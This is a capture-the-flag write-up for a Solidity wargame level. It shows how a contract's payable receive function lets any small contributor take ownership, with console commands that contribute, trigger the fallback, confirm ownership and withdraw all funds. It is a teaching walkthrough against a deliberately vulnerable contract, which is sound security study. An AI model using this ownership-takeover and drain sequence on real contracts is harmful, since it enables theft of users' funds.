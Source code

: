 This level is a good intro to how fallback functions can be exploited by a crafty adversary.

### At first glance
The goal of this challenge is to grab ownership of the contract and drain it of its funds.

This contract is relatively simple to understand. The first thing I see regarding ownership change is in the `contribute` function:
```javascript
// mapping between an address and its contribution amount
mapping(address => uint) public contributions;

//...

// basically, if you've contributed more than the owner, you're you are de captian now
if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
}
```

Sounds simple enough. BUT in the contract's constructor method (which only runs on contract creation):
```javascript
// the owner gets a hard coded 1000 ether contribution value at creation
contributions[msg.sender] = 1000 * (1 ether);
```

So, unless you want to yeet > 1000 Ether into this contract, there needs to be another way.

## Solution
The solution is in the contract's fallback function:

```javascript
// no name or arguments
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

Some key considerations of fallbacks in Solidity:
* Executed if
  * No functions match the function identifier
  * No data was provided with the function call
* Only one per contract
* Executed when the contract receives Ether without any data
* If marked as payable, allows the contract to receive Ether, otherwise will throw an exception

To solve this level, we:
1. Make a contribution to the contract
```javascript
// We make a contribution first to satisfy the
// fallback function's "contributions[msg.sender] > 0 requirement
contract.contribute({ value: toWei("0.001", ether), from: player })
```
2. We then trigger the fallback
```javascript
// we can name this anything
// and we send ETH to satisfy the fallback's msg.value > 0 requirement
sendTransaction({ to: contract.address, value: toWei("0.001", ether), from: player })
```
3. Verify ownership
```javascript
await contract.owner()
```
4. Drain it for all it's worth
```javascript
contract.withdraw()
```

 